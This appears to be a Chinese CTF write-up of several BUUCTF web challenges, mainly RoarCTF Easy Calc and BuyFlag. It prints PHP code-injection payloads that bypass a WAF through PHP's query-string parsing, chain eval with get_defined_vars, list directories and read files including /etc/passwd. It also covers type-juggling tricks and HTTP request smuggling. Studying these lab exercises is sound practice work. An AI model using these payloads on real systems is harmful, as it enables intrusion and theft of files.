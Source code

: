 # [极客大挑战 2019]Upload

# [极客大挑战 2019]Knife

# [ACTF2020 新生赛]Upload

# [极客大挑战 2019]BabySQL

### 考点双写绕过禁用函数还有%20 空格 %27 单引号 %23注释 我最讨厌这种了 很容易少空格什么的 而且很浪费时间 好的 因为我不熟

![image-20241207173311169](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207173311686-1836574484.png)

真牛 意外关机还能给我自动保存

# [RoarCTF 2019]Easy Calc1

![image-20241207195739890](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207195740883-2056383703.png)

无法执行命令 我以为是需要绕过后面的 

正确做法是利用PHP的[字符串](https://so.csdn.net/so/search?q=字符串&spm=1001.2101.3001.7020)解析特性来绕过[WAF]

php在处理查询字符的时候，会自动将其转化魏内部关联数组 例如将URL中的查询字符串*/?foo=bar*转换为*Array([foo] => "bar")*[1](https://blog.csdn.net/qq_45521281/article/details/105871192)[2](https://blog.csdn.net/bin789456/article/details/120305682)。在这个过程中，PHP会删除某些字符或将其替换为下划线。这种特性可以被利用来绕过一些安全防护措施，如WAF（Web应用防火墙）

通常题目都会有一个检查参数名的函数isset()是否是这个参数 同时对其查看是否有设置参数不为空 这里我没有注意到 参数前面加空格 这样服务器就会认为是空格num而不是num 但是在php代码被处理的时候 这里还是会删除一些字符 这样就任然还是num

![image-20241207200415161](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207200415034-636264459.png)

//http://node5.buuoj.cn:26160/calc.php? num=print_r(scandir("."))；

过滤了点

![image-20241207200553185](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207200553320-1955215532.png)

//http://node5.buuoj.cn:26160/calc.php? num=print_r(scandir(current(localeconv())));

也可以使用chr(46)绕过

//http://node5.buuoj.cn:26160/calc.php? num=var_dump(scandir(chr(46)));

查看/下的文件

http://node5.buuoj.cn:26160/calc.php? num=var_dump(scandir(chr(47)));

![image-20241207200823494](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207200823512-412736434.png)

#### 方法1

文件包含 file_get_contents() 可以chr把f1agg使用chr字符一个一个.拼接

http://node5.buuoj.cn:26160/calc.php? num=file_get_contents(base64_decode(chr(39).L2YxYWdn.chr(39)));

##### 方法2

url溢出

**get_defined_vars()**：返回由所有已定义变量所组成的数组，会返回 `_GET` , `_POST` , `_COOKIE` , `_FILES` 全局变量的值，返回数组顺序为 get->post->cookie->files 。

**current()**：返回数组中的当前单元，初始指向插入到数组中的第一个单元，也就是会返回 `$_GET` 变量的数组值。

**end()** : 将内部指针指向数组中的最后一个元素，并输出。即新加入的参数 nss 。

最后由 **eval()** 函数执行，使得 get 方式的参数 nss 生效。

? num=1;eval(end(pos(get_defined_vars())))&参数名随便=函数

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/0c7d62ae242e92f236238d7fd8d5e0ee.png#pic_center)

查看禁用函数 特别多 文件包含

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/fcadf6657d7f0869aeb6711ba32d3c67.png#pic_center)

//http://node5.buuoj.cn:26160/calc.php? num=1;eval(end(pos(get_defined_vars())))&1=include("/etc/passwd")；

![image-20241207202029525](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207202029773-1449639179.png)

### http 请求走私

绕过waf的知识点 使用两个content-length头 使得前端无法识别 直接将整个包完全发给后端 但是还是需要接受后端的黑名单 

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/d80b20fa849999b351f4ec97982dcd37.png#pic_center)

# [极客大挑战 2019]BuyFlag

改header

![image-20241207203055125](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207203055184-987826198.png)

```php
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

![image-20241207203744554](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207203745566-1130110377.png)

检测类型 %00  或者400a  检测长度[]数组

![image-20241207203831663](https://img2023.cnblogs.com/blog/2759911/202412/2759911-20241207203832053-2018867211.png)



# [BJDCTF2020]Easy MD5

 没有回显 抓个包

![image-20241207204424233](C:%5CUsers%5CVC%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20241207204424233.png)